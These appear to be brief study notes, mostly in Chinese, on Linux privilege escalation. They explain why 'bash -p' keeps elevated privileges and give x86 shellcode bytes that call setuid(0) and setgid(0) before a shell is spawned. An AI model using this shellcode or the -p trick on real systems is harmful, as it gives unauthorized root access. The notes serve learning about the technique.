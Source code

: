 
./bash -p

為何呢
Linux本身的保護機制
BASH、DASH
when ruid ≠ euid → drop
所以在+參數 -p 解除保護機制
![image](images/rksalU-Da.png)


---
https://shell-storm.org/shellcode/files/shellcode-251.html
將shellcode uid gid 改為0
加入
```
  "\x6a\x17"			// push	$0x17
  "\x58"		    	// pop 	%eax
  "\x31\xdb"			// xor	%ebx, %ebx
  "\xcd\x80"			// int	$0x80

  "\x6a\x2e"			// push	$0x2e	
  "\x58"			    // pop	%eax
  "\x53"		    	// push %ebx
  "\xcd\x80"			// int	$0x80
```